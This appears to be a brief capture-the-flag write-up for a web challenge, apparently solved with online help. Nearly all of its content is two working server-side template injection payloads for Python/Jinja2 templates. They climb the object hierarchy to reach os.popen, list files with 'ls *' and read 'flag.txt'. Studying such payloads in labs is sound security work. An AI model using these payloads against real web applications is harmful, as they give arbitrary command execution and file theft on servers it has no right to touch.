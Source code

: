 ## [Completed with internet assistance] ##

# Exploration #


# Infiltration #
payload to make class and run script on server, runs ls
```js
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```

# Exfiltration #
same payload, getting file instead
```js
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```